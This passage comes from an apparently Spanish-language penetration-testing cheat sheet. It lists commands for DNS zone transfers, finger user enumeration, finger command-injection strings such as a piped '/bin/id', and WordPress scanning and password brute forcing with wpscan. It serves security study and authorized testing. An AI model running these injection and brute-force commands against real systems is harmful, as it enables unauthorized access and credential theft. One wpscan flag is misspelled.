 #### Ataque de Zona de Transferencia

```shell
dnsrecon -d <DOMAIN> -a
dig axfr <DOMAIN> @ns1.test.com
```

#### Fuerza Bruta

```shell
https://github.com/blark/aiodnsbrute
```


---

### FINGER -> 73

#### Enumeración de Usuarios

```shell
finger @<IP>
finger <USER>@<IP>
```

#### Ejecución de comandos

```shell
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```


---

### HTTP & HTTPS -> 80, 443

#### Wordpress
Wordpress es un gestor de contenido web (CMS) comunmente empleado.
>El archivo mas importante a enumerar es: `wp-config.php` ya que este suele contener la contraseña y el usuario empleados para la base de datos de wordpress

##### WPSCAN

Herramienta para hacer un scan general de wordpress como encontrar plugins con vulnerabilidades o enumerar usuarios validos en wordpress

```shell
# Scan
wpscan --url <URL>

# Enumerar Usuarios(u) y vulnerabilidades de plugins(vp)
wpscan --url <URL> --enumerate u,vp

# Detectar plugins de forma mas agresiva (mejor con --api-token)
--pulings-detection aggressive

# Fuerza bruta a un usuario usando un diccionario
wpscan --url <URL> -U "<USER>" -P <PASSWORDS.txt>

```
(Podemos emplear wpseku como alternativa)
